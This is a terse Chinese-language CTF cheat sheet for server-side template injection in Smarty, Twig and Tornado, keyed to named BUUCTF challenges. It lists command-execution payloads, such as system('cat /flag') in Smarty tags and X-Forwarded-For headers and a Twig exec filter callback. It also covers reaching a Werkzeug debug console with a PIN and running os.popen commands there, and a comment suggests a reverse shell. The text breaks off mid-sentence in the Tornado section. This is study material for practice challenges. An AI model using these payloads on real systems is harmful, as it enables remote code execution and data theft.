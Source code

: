 ## ssti smarty

`[BJDCTF2020]The mystery of ip`
`[CISCN2019 华东南赛区]Web11`

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if} #本题payload
{if system('cat ../../../flag')}{/if} #本题payload
X-Forwarded-For: {{system("ls")}}
X-Forwarded-For: {{system("cat /flag")}} #本题payload
```

## ssti 服务器模板注入 twig

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## PIN 码

debug 开启 才有 PIN 码问题

```html
{{...}}报错
```

得到，PIN 码怎样访问？

```html
name={{...}} 看报错信息，
```

找一行，点右边的 terminal 图标，输入 PIN 码。进入 console。

```python
## console中执行
import os
os.system('ls') # 并没有得到返回输出全部内容，返回了0.只得到返回值
os.popen('ls').read() # 得到了结果。
os.popen('ls /').read()
os.popen('ls /app').read() # 发现 flag
os.popen('cat /app/flag').read()
## 也可以写个反向shell，拿到更多权限。
```

## ssti 注入\_tornado

[2018 护网杯 easy_tornado(BUUCTF 提供复现)](https://blog.csdn.net/zz_Caleb/article/details/101473013)

那么 tornado 中的 cookie 通过 handler.settings 对象
